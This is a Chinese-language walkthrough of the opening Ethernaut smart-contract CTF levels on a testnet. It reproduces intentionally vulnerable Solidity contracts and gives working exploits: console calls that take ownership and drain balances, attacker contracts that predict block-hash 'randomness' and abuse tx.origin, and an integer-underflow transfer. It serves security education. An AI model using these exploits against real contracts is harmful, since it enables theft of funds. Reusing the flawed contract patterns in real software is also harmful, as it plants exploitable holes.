


## 0. Hello Ethernaut

- 登录 MetaMask，将 MetaMask 切换到 Rinkeby 测试网络
    - 若没有则需要在 `设置->高级` 中开启「Show test networks」
- 在浏览器的控制台可以收到一些消息，其中一条为玩家地址
    - 可以使用 `player` 命令随时查看玩家地址，MetaMask 也可以直接复制
- 查看当前余额：`getBalance(player)`
    - 如果显示 `pending`，可改用 `await getBalance(player)` 来获得清晰的结果

        ```js
        >> await getBalance(player)
        "0"
        ```

- 在控制台输入 `ethernaut` 查看游戏的主要合约
    - 合约的 ABI（Application Binary Interfaces）提供了所有 Ethernaut.sol 的公开方法，如所有者，可通过 `ethernaut.owner()` 查看
    - 并不需要直接与 Ethernaut.sol 合约交互，而是通过关卡实例
- 获取测试用以太币用于支付汽油费：[1](https://faucet.rinkeby.io/) / [2](https://faucets.chain.link/rinkeby) / [3](https://faucet.paradigm.xyz/)
- 点击「Get new instance」并在 MetaMask 授权交易
- 查看合约信息并根据提示交互

    ```js
    >> await contract.info()
    "You will find what you need in info1()."
    >> await contract.info1()
    "Try info2(), but with \"hello\" as a parameter."
    >> await contract.info2("hello")
    "The property infoNum holds the number of the next info method to call."
    >> await contract.infoNum()
    {
      "negative": 0,
      "words": [
        42,
        null
      ],
      "length": 1,
      "red": null
    }
    >> await contract.info42()
    "theMethodName is the name of the next method."
    >> await contract.theMethodName()
    "The method name is method7123949."
    >> await contract.method7123949()
    "If you know the password, submit it to authenticate()."
    >> await contract.password()
    "ethernaut0"
    >> await contract.authenticate("ethernaut0")
    // MetaMask 授权交易，等待确认
    ```

- 查看合约所有 ABI：`contract.abi`
- 完成后点击「Submit instance」验证

## 1. Fallback

阅读合约代码并达成以下目标：

1. 获得合约的所有权
2. 将其余额减为 0

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {  // 构造函数
    owner = msg.sender; // 所有者为当前调用
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    // msg.value - 随消息发送的 wei 的数量
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    // 每次转账不能超过 0.001 以太币，想要超过原 owner 的 1000 以太币
    // 需要重复调用多次 contribute 函数，且测试账户也没有那么多以太币，显然不太现实
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);  // 合约所有者才能将账户余额清零
  }

  // 一个合约最多能有一个 receive 函数，不能有参数和返回值
  // 必须声明 external 和 payable
  // 当调用合约的 data 域为空时，将会执行；如果没有 receive 函数，将尝试 fallback 函数
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

- 注意到若当前交易转账金额大于 0 且调用者贡献不为 0 时，可以通过 `receive` 函数取得合约所有权
- 首先通过 `contribute` 使贡献值大于 0

    ```js
    >> await contract.contribute({value:1})
    ```

- 向合约转账触发 `receive` 函数，执行完成后确认一下所有者

    ```js
    >> await contract.send(1)
    // 或
    >> await contract.sendTransaction({value:1})

    >> await contract.owner()
    ```

- 清空合约账户的余额

    ```js
    >> await contract.withdraw()
    ```

### 参考资料

- [Receive Ether Function](https://docs.soliditylang.org/en/latest/contracts.html?highlight=receive#receive-ether-function)
- [sendTransaction](https://web3js.readthedocs.io/en/v1.7.0/web3-eth.html?highlight=sendTransaction#sendtransaction)

## 2. Fallout

声明合约的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
  // 在 v0.4.22 前，构造函数是和合约同名的函数（v0.5.0 弃用）

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

被注释为「构造函数」的函数名为 `Fal1out` 而不是 `Fallout` 意味着该函数只是普通函数可以被调用

- 真正的构造函数只在合约创建时调用一次

```js
>> await contract.Fal1out()
```

### 参考资料

[Constructors](https://docs.soliditylang.org/en/latest/contracts.html?highlight=constructor#constructors)

## 3. Coin Flip

需要连续猜对 10 次掷硬币的结果

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    // block.number - 当前区块号
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert(); // 无条件抛出异常
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);  // 向下取整
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

- 实际上 `side` 的值并非随机，区块号、区块哈希等都是公开可获取的
- 可以由另一个合约计算掷硬币的结果，并调用 `flip` 函数

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

// 把需要调用的合约放在同一个文件
contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    // 当前区块号不能等于上一区块号，意味着不能使用循环重复调用 flip
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract hack {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coin;

    constructor(address instance) {
        coin = CoinFlip(instance);
    }

    function exploit() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coin.flip(side);
    }
}
```

使用 Remix 部署合约



执行 10 次 `exploit` 函数



可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number) 来获得安全的随机数

### 参考资料

[Deploy & Run — Remix - Ethereum IDE 1 documentation](https://remix-ide.readthedocs.io/en/latest/run.html)

## 4. Telephone

声明合约的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    // tx.origin - 交易的发起者
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

- 用户通过合约 A 调用合约 B
    - 对于合约 A：`tx.origin` 和 `msg.sender` 都是用户
    - 对于合约 B：`tx.origin` 是用户，`msg.sender` 是合约 A
- 当交易发起者的地址与当前调用者的地址不相同时，可以更新合约所有者，显然需要通过另一个合约来调用 `changeOwner`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Hack {

  address public owner;
  Telephone tele;

  constructor(address instance) public {
    owner = msg.sender;
    tele = Telephone(instance);
  }

  function exploit() public {
    tele.changeOwner(owner);
  }
}
```

## 5. Token

增加手中 token 的数量，越多越好（初始 20 个）

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  // 无符号整数类型
  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    // 会发生整数溢出，未使用 SafeMath 检查
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

通过下溢出来获得 token

```js
// 转给除自己外的任意地址
// 转给自己的话，就先下溢出再上溢出了...
>> await contract.transfer(<address>, 21)
```